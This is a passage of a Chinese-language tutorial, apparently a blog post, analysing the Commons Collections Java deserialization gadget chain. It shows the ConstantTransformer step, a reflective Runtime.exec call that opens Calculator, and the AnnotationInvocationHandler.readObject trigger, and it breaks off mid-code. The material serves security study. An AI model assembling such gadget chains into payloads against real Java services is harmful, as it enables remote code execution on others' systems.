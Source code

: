 ```java
```

链的第一个结点选用的是`ConstantTransformer`，其transformer直接返回构造时的对象

```java
private final Object iConstant;// 此时iConstant置为Runtime.class
public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}

public Object transform(Object input) {// 直接返回Runtime.class
  return iConstant;
}
```

最终的调用，类似

```java
Object obj = Runtime.class;
Class cls = obj.getClass();
Method method;
method = cls.getMethod("getMethod",new Class[] {String.class, Class[].class });
obj = method.invoke(obj, new Object[] {"getRuntime", new Class[0] });
cls = obj.getClass();
method = cls.getMethod("invoke",new Class[] {Object.class, Object[].class });
obj = method.invoke(obj, new Object[] {null, new Object[0] });
cls = obj.getClass();
method = cls.getMethod("exec",new Class[] { String.class });
method.invoke(obj, new String[] { "open /System/Applications/Calculator.app" });
```

接下来的问题是如何触发`ChainedTransformer`？搜索一下调用transform的位置，排除掉xxxTransformer类，最有可能被利用的就是`LazyMap.get`、`TransformedMap.checkSetValue`，其中checkSetValue会在setValue函数被调用的时候调用。

接下来就是找能触发上面两个利用方式的方法。

同样的，前面基础知识提到，如果一个对象的readObject函数被重载了，会优先调用重载后的readObject函数。

我们最好能在被重载的readObject函数中发现相关可控Map数据的操作(get和setValue)。

而exp中`sun.reflect.annotation.AnnotationInvocationHandler`非常符合上述的描述。

来看一下这个类的readObject实现

```java
private void readObject(java.io.ObjectInputStream s)
  throws java.io.IOException, ClassNotFoundException {
  s.defaultReadObject();

  // Check to make sure that types have not evolved incompatibly

  AnnotationType annotationType = null;
  try {
    annotationType = AnnotationType.getInstance(type);
  } catch(IllegalArgumentException e) {
    // Class is no longer an annotation type; time to punch out
    throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
  }

  Map<String, Class<?>> memberTypes = annotationType.memberTypes();

  // If there are annotation members without values, that
  // situation is handled by the invoke method.
  for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
    String name = memberValue.getKey();
    Class<?> memberType = memberTypes.get(name);
    if (memberType != null) {  // i.e. member still exists
      Object value = memberValue.getValue();
```